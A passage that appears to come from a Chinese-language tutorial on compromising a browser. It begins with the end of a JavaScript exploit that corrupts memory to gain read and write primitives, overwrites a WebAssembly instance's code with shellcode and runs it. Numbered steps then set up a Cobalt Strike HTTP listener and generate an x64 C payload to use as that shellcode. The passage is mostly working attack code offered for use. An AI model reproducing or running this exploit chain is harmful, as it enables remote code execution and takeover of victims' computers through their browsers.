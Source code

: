 ```
  }
   for (var i = 0; i < 0x10000; ++i)
       foo(false);
   gc(); gc();
  [corrput_arr, rwarr, corrupt_buff] = foo(true);
   corrput_arr[12] = 0x22444;
   delete corrput_arr;
   function setbackingStore(hi, low) {
       rwarr[4] = i2f(fLow(rwarr[4]), hi);
       rwarr[5] = i2f(low, fHi(rwarr[5]));
  }
   function leakObjLow(o) {
       corrupt_buff.slot = o;
       return (fLow(rwarr[9]) - 1);
  }
   let corrupt_view = new DataView(corrupt_buff);
   let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
   let idx0Addr = corrupt_buffer_ptr_low - 0x10;
   let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) - ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) + 0x40000;
   let delta = baseAddr + 0x1c - idx0Addr;
   if ((delta % 8) == 0) {
       let baseIdx = delta / 8;
       this.base = fLow(rwarr[baseIdx]);
  } else {
       let baseIdx = ((delta - (delta % 8)) / 8);
       this.base = fHi(rwarr[baseIdx]);
  }
   let wasmInsAddr = leakObjLow(wasmInstance);
   setbackingStore(wasmInsAddr, this.base);
   let code_entry = corrupt_view.getFloat64(13 * 8, true);
   setbackingStore(fLow(code_entry), fHi(code_entry));
   for (let i = 0; i < shellcode.length; i++) {
       corrupt_view.setUint8(i, shellcode[i]);
  }
   main();
</script>
```

2、打开 cobaltstrike，设置一个监听 http 或 https 的都可以 https 的相对稳定，这里使用 http

![图片](https://mmbiz.qpic.cn/mmbiz_png/gqALwUU9cicwic9L79bylTHllIvbgqXTFt80YheicItqjcibQECsPS03xOianbaZUpgmjk6OEAK0oXf67Lo3sM7icj6g/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/gqALwUU9cicwic9L79bylTHllIvbgqXTFtqD6wribHTEWicAUKUshJ69QibUf7IBoaW7yJnyBfqKTnxmn0icStFlrQiaQ/640?wx_fmt=png)

3、使用 cs 生成 payload，监听器选择上一步生成的，输出选择 C，然后勾选上 X64 payload。

![图片](https://mmbiz.qpic.cn/mmbiz_png/gqALwUU9cicwic9L79bylTHllIvbgqXTFtdmQtpwbJc0he3N0W3QVXKTe6ZF1oHbAicCoxldaK5buLLBiaiaeq5cftQ/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/gqALwUU9cicwic9L79bylTHllIvbgqXTFtvXy3O75EDThhmoHHv2O2lWYBYj98AH1cEnueXqcBuMWOUTlkbkGwEA/640?wx_fmt=png)
